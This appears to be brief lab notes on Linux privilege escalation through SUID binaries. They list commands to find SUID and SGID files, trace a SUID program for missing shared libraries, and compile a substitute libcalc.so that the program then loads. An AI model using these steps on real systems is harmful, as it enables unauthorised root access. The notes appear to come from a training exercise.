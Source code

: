 ```Shell
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```




suid-so elevation process:

```shell
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

find any missing file that is accessable to the current user and create the same file
EXAMPLE
```Shell
mkdir /home/user/.config
```

copy from /home/user/tools/suid/libcalc.c
```Shell
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

execute
```Shell
/usr/local/bin/suid-so
```